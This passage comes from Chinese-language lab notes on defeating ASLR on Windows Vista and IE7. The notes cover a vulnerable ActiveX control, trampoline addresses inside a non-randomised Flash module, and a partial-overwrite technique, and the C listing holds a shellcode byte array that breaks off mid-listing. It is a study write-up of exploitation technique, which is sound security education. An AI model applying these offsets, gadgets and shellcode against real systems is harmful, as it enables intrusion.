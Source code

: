 </code></pre>

#### 1.2 实验内容

<b>实验内容</b>
1. 为了直观反映ASLR，本次不是用ActiveX控件不使用GS
2. 通过WEB页面同时加载具有溢出漏洞的ActiveX和Flash9e.ocx
3. 又有IE7和DEP是关闭的，所以不用考虑DEP影响
4. 函数test存在典型的溢出
5. Flash9k.ocx未启用ASLR，所以其加载地址是固定的，只需要在其内部寻找合适的跳板指令来跳转到shellcode

<b>实验环境</b>

||推荐使用环境|备注|
|--|--|--|
|操作系统|Windows Vista SP0| |
|DEP状态|Optin|Vista默认状态|
|浏览器|IE7||
|Flash Player版本|9.0.115||

经过某次测试，得到溢出字符串的起始地址0x0337F4B4
返回地址所在栈中地址：0x0337F520。所以覆盖返回地址需要填充108个0x90，也即54个\u9090

书上的解释：
我们使用0x1014D286处的MOV EAX,EDX RETN 8来调整EAX，而作为机器码时，其代表：
86D2	XCHG DL,DL
1410 	ADC AL, 10
可以看出其不会对正常的程序有影响。
接下来用4字节的0x90填充消除test函数返回时的4字节偏移。
接着是用0x1012E78A来(JMP ESI)跳转至shellcode
跟着是0x90填充

实验测试：
0x3015EC2F: jmp esp

<font color=#f00>POC中的第一个classid的值一般不变，对应的cab应该与安装的flash版本一致。
第一个object的作用是提前加载swf文件，这样在调试的时候就能看到Flash9e.ocx内容</font>

### 2. 利用部分覆盖进行定位内存地址

映像随机化只会对映像加载基址的前2个字节做随机化处理。

#### 2.1 实验代码

<pre><code>
#include "stdafx.h"
#include "stdlib.h"

char shellcode[] = 
	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
    "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
    "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
    "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
    "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
    "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
    "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
    "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
    "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
    "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
    "\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
	"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"